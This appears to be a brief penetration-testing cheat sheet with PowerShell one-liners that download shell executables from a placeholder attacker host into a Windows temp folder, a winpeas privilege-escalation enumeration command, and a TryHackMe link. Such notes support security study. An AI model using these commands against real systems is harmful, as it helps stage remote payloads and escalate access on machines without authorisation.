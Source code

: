 # Usefull Commands

## Download file

```bash
$ powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"

$ powershell -c "invoke-WebRequest -Uri 'http://<ip>:<port>/shell.exe' -OutFile 'C:/Windows/Temp/shell.exe'"
```

```bash
$ winpeas.exe cmd > output.txt
```

## Powershell COmmands

https://ratiros01.medium.com/tryhackme-hacking-with-powershell-bf6dbc5febc9

